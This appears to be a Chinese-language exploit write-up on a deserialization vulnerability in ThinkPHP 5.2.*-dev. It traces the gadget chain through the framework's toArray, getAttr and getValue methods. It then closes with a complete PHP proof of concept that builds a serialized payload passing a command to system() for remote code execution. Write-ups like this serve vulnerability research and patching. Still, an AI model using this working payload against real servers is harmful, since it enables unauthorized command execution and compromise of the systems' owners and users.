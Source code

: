 # Thinkphp 5.2.*-dev 反序列化漏洞

### 一、漏洞简介

所有Thinkphp版本下载链接

https://packagist.org/packages/topthink/framework

### 二、漏洞影响

### 三、复现过程

环境搭建


```
composer create-project topthink/think=5.2.*-dev v5.2
```

poc演示截图

![](images/15893521919748.png)


调用链

![](images/15893521984990.png)


单步调试

可以看到前面的链跟tp5.1.x的一样，这里不在列举，直接进去toArray函数，可以看到$data可控


```php
public function toArray(): array
{
。。。
$data = array_merge($this->data, $this->relation);

foreach ($data as $key => $val) {
   if ($val instanceof Model || $val instanceof ModelCollection) {
     // 关联模型对象
     if (isset($this->visible[$key])) {
      $val->visible($this->visible[$key]);
     } elseif (isset($this->hidden[$key])) {
      $val->hidden($this->hidden[$key]);
     }
     // 关联模型对象
     $item[$key] = $val->toArray();
   } elseif (isset($this->visible[$key])) {
     $item[$key] = $this->getAttr($key);
   } elseif (!isset($this->hidden[$key]) && !$hasVisible) {
     $item[$key] = $this->getAttr($key);
   }
}
。。。
```


```php
public function getAttr(string $name)
{
    try {
        $relation = false;
        $value    = $this->getData($name);
    } catch (InvalidArgumentException $e) {
        $relation = true;
        $value    = null;
    }

    return $this->getValue($name, $value, $relation);
}
```


```php
public function getData(string $name = null)
   {
       if (is_null($name)) {
           return $this->data;
       }

       $fieldName = $this->getRealFieldName($name);

       if (array_key_exists($fieldName, $this->data)) {
           return $this->data[$fieldName];
           ...
       }
   }
```


```php
protected function getRealFieldName(string $name): string
{
    return $this->strict ? $name : App::parseName($name);  //this->strict默认为true
}
```

可以看到getAttr函数中的$value可控，那么导致$this->getValue($name, $value, $relation);这里的三个参数都可控，跟进$this->getValue($name, $value, $relation);


```php
protected function getValue(string $name, $value, bool $relation = false)
{
    // 检测属性获取器
    $fieldName = $this->getRealFieldName($name);
    $method    = 'get' . App::parseName($name, 1) . 'Attr';

    if (isset($this->withAttr[$fieldName])) {
       if ($relation) {
         $value = $this->getRelationValue($name);
       }

       $closure = $this->withAttr[$fieldName];
       $value   = $closure($value, $this->data);
```

这里$fieldName、$this->withAttr，导致$closure也可控，最终直接产生RCE。如下图

![](images/15893522599280.png)


补充：


```php
<?php

$a = array();
system('whoami',$a);
```

![](images/15893522712339.png)


![](images/15893522745213.png)


poc v5.2.*-dev


```php
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
        protected $append = array("Smi1e" => "1");
    }

    trait Attribute
    {
        private $data;
        private $withAttr = array("Smi1e" => "system");

        public function get($system)
        {
            $this->data = array("Smi1e" => "$system");
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct($system)
        {
            $this->get($system);
        }
    }
}
namespace{
    $Conver = new think\model\Pivot("whoami");
    $payload = new think\process\pipes\Windows($Conver);
    echo base64_encode(serialize($payload));
}
?>
```